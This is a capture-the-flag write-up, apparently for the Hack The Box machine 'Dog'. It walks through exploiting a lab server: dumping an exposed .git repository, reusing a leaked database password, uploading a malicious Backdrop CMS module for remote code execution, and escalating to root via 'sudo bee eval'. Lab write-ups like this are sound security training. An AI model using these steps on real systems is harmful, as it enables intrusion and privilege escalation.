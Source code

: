 https://app.hackthebox.com/machines/651

## ENUM

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
```

```
+ http://10.10.11.58/.git/HEAD (CODE:200|SIZE:23)       
==> DIRECTORY: http://10.10.11.58/core/                 
==> DIRECTORY: http://10.10.11.58/files/  
```

since the site was inaccessible at the time I attempted the enum, I decide to dig through the files, I find the mention of **Backdrop CMS** in [http://10.10.11.58/core/profiles/minimal/minimal.info](http://10.10.11.58/core/profiles/minimal/minimal.info):

```info
name = Minimal
description = Start with only a few modules enabled.
version = BACKDROP_VERSION
backdrop = 1.x
type = profile
hidden = TRUE

dependencies[] = node
dependencies[] = dblog
dependencies[] = layout

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662
```

so I have this info:

Backdrop CMS : 1.27.1

I find a vuln that I could exploit once logged in:
`Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)`

I keep that aside.

I also find: [http://10.10.11.58/.git/logs/HEAD](http://10.10.11.58/.git/logs/HEAD) (I could probably reconstruct the repo!)

`root <dog@dog.htb> 1738963331 +0000	commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases`

which could also indicate a lead.

I launch ffuf (machine bug was preventing dirb from giving results)

```
ffuf -u http://10.10.11.58/FUZZ -w /usr/share/dirb/wordlists/common.txt -timeout 5 -t 10 -o result.json -of json
```

| URL                      | Code | Duration | Size | Notes                                      |
| ------------------------ | ---- | -------- | ---- | ------------------------------------------ |
| `/`                      | 200  | 63 ms    | 0    | Empty or redirected home page              |
| `/.git/HEAD`             | 200  | 68 ms    | 23   | found earlier                              |
| `/index.php`             | 200  | 65 ms    | 0    | Existing PHP file but empty                |
| `/robots.txt`            | 200  | 65 ms    | 1198 | To read, might contain hidden paths        |
| `/core/` (via `/core`)   | 301  | 78 ms    | 309  | found earlier                              |
| `/files/` (via `/files`) | 301  | 70 ms    | 310  | same                                       |
| `/layouts/`              | 301  | 58 ms    | 312  | Existing directory, redirected             |
| `/modules/`              | 301  | 59 ms    | 312  | Potentially interesting                    |
| `/sites/`                | 301  | 67 ms    | 310  | same                                       |
| `/themes/`               | 301  | 64 ms    | 311  | same                                       |
| `/.hta`                  | 403  | 57 ms    | 276  | ⚠️ Access denied (sensitive file?)         |
| `/.htpasswd`             | 403  | 53 ms    | 276  | ⚠️ Classic restriction file, access denied |
| `/server-status`         | 403  | 60 ms    | 276  | Apache status denied, good service sign    |

here’s the content of robots.txt:

```
...
Disallow: /user/register
Disallow: /user/password
Disallow: /user/login
Disallow: /user/logout
...
```

I also find a key piece of info here:
[http://10.10.11.58/files/config\_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json](http://10.10.11.58/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json)

`"tiffany@dog.htb"` a possible username to test? but I’m missing the password, I might find it in some config files!

I’m going to download the .git and restore it:

```bash
wget --mirror -I .git http://10.10.11.58/.git/
sudo git restore .
```

and I find interesting files:

```
ls

LICENSE.txt  README.md  core  files  index.php  layouts  robots.txt  settings.php  sites  themes
```

I dig into settings.php and find several useful things:

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```

I can try the username `tiffany` and the password `BackDropJ2024DS2024`

and it works!

## INITIAL ACCESS

Now that I’m authenticated, time for the RCE vuln!

[https://www.exploit-db.com/exploits/52021](https://www.exploit-db.com/exploits/52021)

I enter the url:

```
python exploit.py http://10.10.11.58                                     
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

and I’ll upload the malicious module!

and I access it here: [http://10.10.11.58/modules/shell/shell.php](http://10.10.11.58/modules/shell/shell.php)

I can execute commands so I generate a revshell payload and gain acces to the machine.

### OWN USER

once on the machine I launch linpeas.sh:

I find 3 users:

```
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

after long analysis, I find nothing interesting so I try the password found earlier to log into the accounts

```
www-data@dog:/var/www/html/modules/shell$ su johncusack
su johncusack
Password: BackDropJ2024DS2024
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
ls
whoami
johncusack
```

and it works! I connect via ssh and relaunch linpeas.sh!

```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

perfect! what does bee do?

```
/usr/local/bin/bee
🐝 Bee
Usage: bee [global-options] <command> [options] [arguments]
```

so we have the possibility to execute code as root!

if I look at the options that will be useful:

```
 --root
 Specify the root directory of the Backdrop installation to use. If not set, will try to find the Backdrop installation automatically based on the current directory.
```

so to specify the installation, here `/var/www/html`

```
eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
```

knowing that php can execute system commands, it’s perfect.

```
sudo /usr/local/bin/bee --root=/var/www/html eval "system('id');"
uid=0(root) gid=0(root) groups=0(root)
```

it’s indeed root, so now just switch to a shell:

```
johncusack@dog:/tmp$ sudo /usr/local/bin/bee --root=/var/www/html eval "system('bash -p');"
root@dog:/var/www/html# ls /root
root.txt
root@dog:/var/www/html# cat /root/root.txt
f0a050cdb9b12eda1af7bb06b2eae6c3
```
